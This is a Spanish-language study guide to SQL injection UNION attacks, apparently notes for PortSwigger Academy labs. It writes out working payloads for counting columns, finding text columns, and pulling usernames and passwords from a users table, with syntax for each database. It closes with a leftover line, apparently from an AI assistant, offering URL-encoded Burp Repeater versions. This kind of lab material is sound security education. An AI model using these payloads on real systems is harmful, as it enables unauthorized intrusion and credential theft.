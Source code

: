 # UNION attacks

Cuando una aplicación es vulnerable a SQL injection **y** la salida de la consulta original se refleja en la respuesta HTTP, puedes inyectar un `UNION SELECT` para añadir filas controladas por ti al conjunto de resultados. Esto permite recuperar datos de otras tablas si consigues que la consulta inyectada tenga la misma estructura (nº de columnas y tipos compatibles) que la consulta original.

Ejemplo conceptual:

```sql
SELECT a, b FROM table1
UNION
SELECT c, d FROM table2;
```

El resultado es un único conjunto con dos columnas, combinando valores de `a,b` y `c,d`.

table1
| a | b |
| - | - |
| 1 | 2 |
| 3 | 4 |

table2
| c | d |
| - | - |
| 2 | 3 |
| 4 | 5 |

Consulta 1:
```sql
SELECT a, b FROM table1;
```
| a | b |
| - | - |
| 1 | 2 |
| 3 | 4 |

Consulta 2:
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
```
| a | b |
| - | - |
| 1 | 2 |
| 3 | 4 |
| 2 | 3 |
| 4 | 5 |



---

## Requisitos para que `UNION` funcione

1. **Mismo número de columnas** en cada `SELECT`.
2. **Tipos compatibles** entre columnas en cada posición (o convertibles).

Por eso la primera tarea al explotar un `UNION` es averiguar cuántas columnas devuelve la consulta original y cuáles de esas columnas pueden contener datos de tipo texto (string) donde poner tu payload.

---

## 1) Determinar cuántas columnas devuelve la consulta

Hay dos técnicas comunes.

### A — `ORDER BY` por posición


Inyectás `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`, ... hasta que obtengas un error o un comportamiento diferencial. El primer `n` que falle indica que la consulta original tiene `n-1` columnas.

Payloads (si la aplicación ya envuelve el input con comillas):

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Si la app no muestra errores explícitos, observá diferencias en la respuesta (código, tamaño, contenido).

[Explicación Order by y UNION](https://github.com/juanpoch/PortSwigger_Academy/blob/main/Server-side/1_SQL_injection/1_Examining_the_database/Order_by.md)

### B — `UNION SELECT NULL,...` (prueba por conteo)

Inyectás `UNION SELECT NULL`, `UNION SELECT NULL,NULL`, etc., hasta que el `UNION` deje de fallar. Usamos `NULL` porque es convertible a la mayoría de tipos y minimiza errores de tipo.

Payloads (string context):

```
' UNION SELECT NULL--              -- prueba 1 columna
' UNION SELECT NULL, NULL--        -- prueba 2 columnas
' UNION SELECT NULL, NULL, NULL--  -- prueba 3 columnas
```

**Nota importante (Oracle):** Oracle no permite `SELECT <literal>` sin `FROM`. En Oracle debes usar `FROM DUAL`:

```
' UNION SELECT NULL FROM DUAL--
' UNION SELECT NULL, NULL FROM DUAL--
```

Si el `UNION` coincide con las columnas, verás una fila adicional (posiblemente con `NULL` en cada columna) o alguna diferencia en la respuesta.

`Nota`: Los payloads descritos utilizan la secuencia de comentarios de doble guion `--` para comentar el resto de la consulta original después del punto de inyección. En MySQL, la secuencia de doble guion debe ir seguida de un espacio. Como alternativa, se puede utilizar `#`


[Lab: SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query](1_SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)

---

## 2) Encontrar columnas adecuadas para datos de texto

Una vez sabes el número de columnas `N`, debes probar qué columnas aceptan texto. Envía una serie de payloads donde pones una cadena identificadora (`'injected1'`) en cada posición y `NULL` en las demás:

Por ejemplo, si hay 4 columnas:

```
' UNION SELECT 'a', NULL, NULL, NULL--
' UNION SELECT NULL, 'a', NULL, NULL--
' UNION SELECT NULL, NULL, 'a', NULL--
' UNION SELECT NULL, NULL, NULL, 'a'--
```

Si alguna de esas consultas no da error y la respuesta HTTP contiene la cadena `a` (por ejemplo en una celda de la tabla HTML), entonces esa posición es interesante para inyectar texto real (username, password, etc.).

Si al ejecutar el payload aparece un error del tipo "Conversion failed when converting the varchar value 'a' to data type int", entonces la posición no admite texto (la columna es numérica).


[Lab: SQL_injection_UNION_attack,_finding_a_column_containing_text](2_SQL_injection_UNION_attack,_finding_a_column_containing_text.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)

---

## 3) Exfiltrar datos con `UNION` una vez que conocemos columnas y tipos

Si sabes que la consulta original tiene 2 columnas y ambas admiten texto, y existe una tabla `users(username,password)`, un payload será:

```
' UNION SELECT username, password FROM users--
```

[Lab: SQL_injection_UNION_attack,_retrieving_data_from_other_tables](3_SQL_injection_UNION_attack,_retrieving_data_from_other_tables.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)


Para saber más:  

[Examining_the_database](https://github.com/juanpoch/PortSwigger_Academy/tree/main/Server-side/1_SQL_injection/1_Examining_the_database)  


Si desconocés los nombres de tabla/columnas, primero harás *enumeración* usando `information_schema` (MySQL/Postgres/SQL Server) o `all_tables` / `all_tab_columns` en Oracle.

---

## 4) Recuperar múltiples valores en una sola columna (concatenación)

(SQLi Cheet Sheet)[https://portswigger.net/web-security/sql-injection/cheat-sheet]

Si sólo hay 1 columna disponible, puedes concatenar varias columnas en una sola cadena separada por un separador reconocible:

* **Oracle:** `username || '~' || password`
* **MySQL:** `CONCAT(username, '~', password)` o `GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR ',')` para unir múltiples filas.
* **Postgres:** `username || '~' || password` o `string_agg(username || ':' || password, ',')`

Ejemplo Oracle con `UNION` (1 columna visible):

```
' UNION SELECT username || '~' || password FROM users--
```

---

## 5) Particularidades por base de datos

* **MySQL**: permite `UNION SELECT NULL` sin `FROM`. Comentarios: `-- ` necesita espacio; `#` también funciona. Uso frecuente de `GROUP_CONCAT` y `CONCAT`.
* **PostgreSQL**: permite `UNION SELECT NULL` y usa `||` para concatenar; también `string_agg` para agrupar.
* **Microsoft SQL Server**: `@@version`, `+` o `CONCAT()` para concatenar, `WAITFOR DELAY` para time-based.
* **Oracle**: **obligatorio** `FROM DUAL` si seleccionás literales; concatenación con `||`. Para `UNION` con literales: `SELECT 'a' FROM DUAL`.
* **SQLite**: admite `UNION SELECT NULL` y `||` para concatenación; metadatos en `sqlite_master`.

---


## 7) Consejos prácticos y trucos

* **Determina primero el motor**: si ves errores con `ORA-` o `SQLSTATE`, adapta payloads (DUAL, funciones, concatenadores).
* **Usa `NULL` al principio** para contar columnas y evitar errores de tipo. Luego prueba literales para identificar columnas de texto.
* **Identifica qué columna aparece en la página** reemplazando `NULL` por marcadores (`'col2_marker'`) y buscando en la respuesta HTML.
* **Si la app suprime errores**, inspecciona diferencias en longitud/respuesta o usa inyección ciega (time/boolean).
* **Evita payloads destructivos** en entornos reales. Solo en labs o con autorización.
* **Si `UNION` está bloqueado**, prueba técnicas de subqueries, error-based o time-based para enumerar la base.

---



¿Querés que suba esto al lienzo como archivo `SQLi_UNION_attacks.md` (ya lo creé) y además genere una versión con ejemplos listos para Burp Repeater codificados (URL-encoding) para MySQL y Oracle?"}
